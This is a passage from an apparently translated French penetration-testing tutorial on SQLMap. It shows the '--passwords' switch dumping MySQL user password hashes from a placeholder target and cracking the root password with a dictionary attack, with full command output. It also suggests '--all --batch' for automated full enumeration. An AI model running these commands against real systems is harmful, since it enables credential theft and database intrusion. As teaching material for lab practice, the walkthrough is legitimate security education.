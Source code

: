 Outre les informations d'identification utilisateur trouvées dans les tables de base de données, nous pouvons également tenter de vider le contenu des tables système contenant les informations d'identification spécifiques à la base de données (par exemple, les informations d'identification de connexion). Pour faciliter l'ensemble du processus, SQLMap dispose d'un commutateur spécial `--passwords`conçu spécialement pour une telle tâche :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch

...SNIP...
[14:25:20] [INFO] fetching database users password hashes
[14:25:20] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'debian-sys-maint'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y

[14:25:20] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:25:20] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:25:20] [INFO] starting 8 processes
[14:25:26] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass

[14:25:28] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 14:25:28 /2020-09-18/

```

Astuce : Le commutateur '--all', en combinaison avec le commutateur '--batch', effectuera automatiquement l'ensemble du processus d'énumération sur la cible elle-même et fournira tous les détails de l'énumération.

Cela signifie essentiellement que tout ce qui est accessible sera récupéré, et fonctionnera potentiellement pendant très longtemps. Nous devrons trouver manuellement les données d'intérêt dans les fichiers de sortie.

  Plein écran  Mettre fin

